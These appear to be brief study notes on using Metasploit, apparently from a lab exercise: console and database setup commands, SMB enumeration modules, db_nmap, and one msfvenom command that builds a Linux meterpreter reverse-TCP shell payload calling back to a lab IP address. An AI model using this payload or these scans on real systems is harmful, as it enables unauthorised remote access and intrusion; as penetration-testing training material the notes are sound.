 msfconsole

cd /usr/share/metasploit-framework/modules

tree -L 1 auxiliary

`smb_version`
`smb_enumshares`

`systemctl start postgresql`

`msfdb init`

`msfconsole`

`db_status`

`workspace`

`db_nmap`

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.4.20.232 LPORT=1234 -f elf > rev_shell.elf






































